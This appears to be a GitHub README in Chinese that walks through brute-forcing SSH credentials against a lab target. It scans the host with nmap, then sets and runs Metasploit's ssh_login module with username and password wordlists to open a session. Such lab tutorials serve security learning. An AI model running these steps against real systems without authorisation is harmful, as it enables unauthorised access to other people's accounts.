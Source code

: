# brute-force SSH login
使用Metasploit暴力猜測ssh的登入帳密。

## **環境&工具**
* 一台Kali Linux
* 一台有ssh服務的靶機
* 一個字典檔

## **破解流程**
* step1：針對目標機器做掃描，掃描這台主機有開那些服務
  > * 這邊使用nmap這套工具做掃描，檢測目標主機是否在線上、port開放的情況
  > * nmap其他相關指令請參考https://zh.wikipedia.org/zh-tw/Nmap
  > ```shell
  > namp -sV xxx.xxx.xxx.xxx
  > ```
  > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/1.png)
* step2：開啟Metasploit
  > ```shell
  > msfconsole
  > ```
  > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/2-1.png)
  > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/2-2.png)
* step3：開啟Metasploit這套工具尋找模組腳本
  > * 這邊使用模組名稱是`auxiliary/scanner/ssh/ssh_login`
  > ```shell
  > search ssh_login
  > ```
  > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/3.png)
* step4：查看使用的模組腳本需要設定的參數
  > * 這邊四個重要的參數必須設定，`目標主機IP`、`目標主機port號`、`使用者帳號`、`使用者密碼`
  > ```shell
  > option
  > ```
  > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/4.png)
* step5：設定目標主機IP
  > ```shell
  > set rhost xxx.xxx.xxx.xxx
  > ```
  > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/5.png)  
* step6：目標主機port號
  > ```shell
  > set rport xx
  > ```
  > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/6.png)
* step7：設定使用者帳號密碼
  > * 設定使用者帳號及使用者密碼的方式有三種，`利用username及password的字典檔`、`分別給username及password的字典檔`、`直接設定username及password`

  * 利用username及password的字典檔  
    > 檔案格式為
    > 
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/7.png)   
    > ```shell
    > set userpass_file [檔案路徑]
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/8.png)    

  * 分別給username及password的字典檔 
    > 檔案格式為
    > 
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/9.png)   
    > ```shell
    > set user_file [檔案路徑]
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/10.png)   
    > ```shell
    > set pass_file [檔案路徑]
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/11.png)     
  
  * 直接設定username及password  
    > ```shell
    > set username [名稱]
    > set password [密碼]
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/12.png)   

  ```
  設定使用者帳號密碼，可使用字典檔也可自行輸入，可搭配自行輸入及字典檔的組合，更快速的找到登入的帳密。
  ```

* step8：執行暴力猜測ssh的登入帳密
  > ```shell
  > exploit
  > ```
  > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/13.png)
  > * 執行成功後會有一個session存在著
  > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/14.png)

## **References**
* https://charlesreid1.com/wiki/Metasploitable/SSH/Exploits
